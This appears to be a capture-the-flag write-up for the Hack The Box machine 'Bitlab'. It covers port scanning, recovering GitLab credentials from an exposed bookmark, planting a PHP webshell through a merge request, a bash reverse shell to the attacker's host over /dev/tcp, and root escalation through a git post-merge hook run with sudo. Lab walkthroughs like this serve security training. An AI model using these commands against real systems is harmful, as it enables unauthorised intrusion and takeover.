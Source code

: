 # [Bitlab](https://app.hackthebox.com/machines/bitlab)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.114 -Pn
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.114 -Pn  
```


Let's try to access web application for port 80.

That's Gitlab server.

![Alt text](img/image-2.png)


I don't have creds to login and no option for register.

That's why we need to find credentials of someone.

From 'robots.txt' file, I see that '/help' endpoint is possible even though it shows that disallowed.

![Alt text](img/image-3.png)


Here, we find bookmarks of user.

![Alt text](img/image-4.png)


I just take this value and enters to my Node.js CLI.

![Alt text](img/image-5.png)


I grab credentials from here as below.

clave: 11des0081x

I login to Gitlab server via above credentials.

![Alt text](img/image-6.png)


Here, we have repository called 'Profile', I just add my php webshell into here as below.

![Alt text](img/image-7.png)


Now, go to repository, and upload webshell.

![Alt text](img/image-8.png)


After we accept merge request, our file is already here.

![Alt text](img/image-9.png)


Let's browse this webshell and use it.

![Alt text](img/image-10.png)


Let's make reverse shell.

```bash
?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.8/1337 0>%261'
```

![Alt text](img/image-11.png)


I got reverse shell from port (1337).

![Alt text](img/image-12.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-13.png)


Let's check privileges of this user via `sudo -l` command.

![Alt text](img/image-14.png)

This user has root privilege for `git` command.



After some enumeration on Google, I find such an privilege escalation [exploit](https://github.com/arnav-t/git-pull-priv-escalation) on Github.

Commands to do this.
```bash
cd /dev/shm
mkdir .dr4ks
cd .dr4ks
cp -r /var/www/html/profile .
vim profile/.git/hooks/post-merge  # add reverse shell
chmod +x profile/.git/hooks/post-merge 
cd profile  #go to dir (.git locates)
```

![Alt text](img/image-16.png)


I need to do changes as because git pull says that 'Already up to date'

![Alt text](img/image-15.png)


I got reverse shell.

![Alt text](img/image-17.png)


final command is below.
```bash
sudo /usr/bin/git pull # profile's directory.
```

user.txt and root.txt (together)

![Alt text](img/image-18.png)